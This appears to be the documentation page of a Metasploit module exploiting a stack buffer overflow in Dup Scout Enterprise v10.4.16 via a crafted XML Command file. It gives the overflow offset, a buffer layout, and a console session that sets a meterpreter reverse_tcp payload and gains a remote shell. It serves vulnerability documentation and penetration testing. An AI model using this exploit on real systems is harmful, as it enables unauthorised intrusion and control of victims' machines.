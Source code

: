 ## Description

This module exploits a buffer overflow in `libpal.dll` that is used by [Dup Scout Enterprise v10.4.16](http://www.dupscout.com/setups/dupscoutent_setup_v10.4.16.exe). The buffer overflow occurs during a call to the `SCA_XmlParser::GetToken` function when a user-supplied Command file with a crafted name attribute is imported to the Dup Scout application. The `SCA_XmlParser::GetToken` function is passed a heap pointer as an argument, which was created by the `SCA_XmlParser::LoadXmlFile` function and contains data from the user-supplied Command file, and a pointer to a stack buffer that was created in the `SCA_XmlParser::ParseXmlElement` function. While parsing the name attribute, the `SCA_XmlParser::GetToken` function copies from the heap buffer to the stack buffer until a single quote (to match `name='`, or a double quote to match `name="`) is found or until it finishes reading from the allocated heap buffer.

## Vulnerable Application

The vulnerability can be exploited when the size of the name attribute is greater than 1560 bytes.

Note: The allocated stack buffer size is 1564 bytes but the first four bytes are filled with `\xff` during execution of the `SCA_XmlParser::GetToken` function.

Since the stack buffer was allocated as a local variable for the `SCA_XmlParser::ParseXmlElement` function, the program's control flow isn't taken over until the return of the `SCA_XmlParser::ParseXmlElement` function even though the return value is overwritten during execution of the `SCA_XmlParser::GetToken` function.

The format of the crafted Command file will be:

```
buf = "<?xml ?><a name='"
buf << make_nops(1560)   # Fill up the stack buffer
buf << addr_of_jmp_esp   # overwrite the return address for SCA_XmlParser::ParseXmlElement
buf << make_nops(16)     # account for ret 10h in SCA_XmlParser::ParseXmlElement
buf << inst1             # LEA EAX, [ESP+14h] # Prepare EAX to jump to payload
buf << inst2             # JMP EAX # Jump to our desired location
buf << make_nops(14)     # Fill past possibly corrupted location
buf << payload           # Location that is jumped to
```

Note: The last make_nops will offset the location of the payload. The offset is included to account for writes to the stack buffer that after the user-supplied Command file has been processed.

## Verification Steps

- [ ] Install Dup Scout Enterprise on target system
- [ ] `./msfconsole`
- [ ] `use exploit/windows/fileformat/dupscout_xml`
- [ ] `set payload windows/meterpreter/reverse_tcp`
- [ ] `set lhost <lhost>`
- [ ] `run`
- [ ] `use exploit/multi/handler`
- [ ] `set payload windows/meterpreter/reverse_tcp`
- [ ] `set lhost <lhost>`
- [ ] `run`
- [ ] From the DupScout Enterprise menu select Command -> Import Command
- [ ] Select file generated by metasploit
- [ ] Get a session


## Scenarios

### Dup Scout Enterprise v10.4.16 Windows 7 SP1 x64.

```
msf > use exploit/windows/fileformat/dupscout_xml
msf exploit(windows/fileformat/dupscout_xml) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(windows/fileformat/dupscout_xml) > set lhost 172.22.222.120
lhost => 172.22.222.120
msf exploit(windows/fileformat/dupscout_xml) > run

[*] Creating 'msf.xml' file ...
[+] msf.xml stored at /home/msfdev/.msf4/local/msf.xml
msf exploit(windows/fileformat/dupscout_xml) > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 172.22.222.120
lhost => 172.22.222.120
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.22.222.120:4444 
[*] Sending stage (179779 bytes) to 172.22.222.122

meterpreter > getuid
Server username: .\pwnduser
meterpreter > sysinfo
Computer        : .
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
